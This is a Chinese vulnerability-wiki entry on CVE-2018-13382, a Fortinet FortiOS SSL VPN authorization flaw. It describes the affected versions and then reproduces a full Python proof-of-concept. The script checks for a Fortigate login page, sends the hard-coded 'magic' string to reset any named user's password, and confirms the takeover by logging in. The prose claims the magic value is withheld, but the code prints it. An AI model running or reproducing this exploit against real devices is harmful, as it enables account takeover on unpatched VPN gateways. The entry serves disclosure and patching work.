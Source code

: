 （CVE-2018-13382）Fortinet FortiOS magic后门
============================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS 6.0.0版本至6.0.4版本
、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN
Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

二、漏洞影响
------------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9
Fortinet Fortios 5.4.11

三、复现过程
------------

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-13382)FortinetFortiOSmagic后门/media/rId24.png)

根据我们的调查，仍有大量的Fortigate SSL
VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> reversed & exploited by our colleagues
> [\@niph\_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and
> [\@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch
> your
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> asap and see the
> [\#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw)
> talk of
> [\@orange\_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw)
> and [\@mehqq\_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for
> details (tnx guys for the teaser that got us started)
> [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
>
> --- Code White GmbH (\@codewhitesec)
> [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

    $ python CVE-2018-13382.py  -h
    Usage: CVE-2018-13382.py [options]

    Options:
      -h, --help   show this help message and exit
      -i IP        e.g. 127.0.0.1:10443
      -u USERNAME  
      -p PASSWORD  
    import requests, binascii, optparse, sys
    from urlparse import urlparse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    requests.packages.urllib3.disable_warnings()
    import multiprocessing
    import colored
    from user_agent import generate_user_agent, generate_navigator
    bold=True

    userAgent=generate_user_agent()
    username=""
    newpassword=""
    ip=""

    def setColor(message, bold=False, color=None, onColor=None):
        from termcolor import colored, cprint
        retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
        return retVal

    def checkIP(ip):
        try:
            url = "https://"+ip+"/remote/login?lang=en"
            headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            r=requests.get(url, headers=headers, verify=False)
            if r.status_code==200 and "<title>Please Login</title>" in r.text:
                return True
            else:
                return False
        except requests.exceptions.ConnectionError as e:
            print e
            return False

    def changePassword(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
            return True
        else:
            return False

    def testLogin(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
                return True
        else:
            return False

    parser = optparse.OptionParser()
    parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
    parser.add_option('-u', action="store", dest="username")
    parser.add_option('-p', action="store", dest="password")
    options, remainder = parser.parse_args()
    if not options.username or not options.password or not options.ip:
        print "[!] Please provide the ip (-i), username (-u) and password (-p)"
        sys.exit()
    if options.username:
        username=options.username
    if options.password:
        newpassword=options.password
    if options.ip:
        ip=options.ip
    tmpStatus=checkIP(ip)
    if tmpStatus==True:
        print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
        if changePassword(ip,username,newpassword)==True:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
            if testLogin(ip,username,newpassword)==True:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
                print "************** Enjoy your new credentials **************\n"
            else:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
        else:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
    else:
        print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
